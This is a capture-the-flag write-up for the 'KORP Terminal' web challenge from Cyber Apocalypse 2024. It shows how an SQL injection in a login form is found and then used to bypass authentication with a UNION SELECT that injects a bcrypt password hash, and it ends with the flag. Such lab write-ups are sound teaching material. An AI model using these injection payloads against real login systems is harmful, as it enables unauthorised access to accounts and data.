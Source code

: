 # Cyber Apocalypse 2024

## KORP Terminal

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols
> 
> Author: Lean
> 
> [`web_timekorp.zip`](web_timekorp.zip)

Tags: _web_

## Solution
We get another webapp. A terminal where we can log into. After some trial and error it looks like this could be a `sqli` challenge.

```bash
user: admin'
password: x
```

This gives us a error message `{"error":{"message":["1064","1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1","42000"],"type":"ProgrammingError"}}`

The typical payloads are not working. Also anything what is written to password doesn't really trigger an error, so we can assume the content of password is hashed such like `SELECT user, password WHERE password = MD5({password}) AND user = '{user}'`. 

Lets try if we can inject our own password hash:

```bash
user: ' AND 1=0 UNION ALL SELECT '098f6bcd4621d373cade4e832627b4f6
password: test
```

This gives us `{"error":{"message":["Invalid salt"],"type":"ValueError"}}`, so MD5 is not the hash algorithm. Salt hints `Bcrypt`, so lets hash our password `test` again, this time with Bcrypt.

```bash
user: admin' AND 1=0 UNION ALL SELECT '$2a$12$fuqOG.Xuqon6cO9bX2d5OuQGzKvi3BKDoE6a5n3t3GpqyNBdiZqJe
password: test
```

Flag `HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`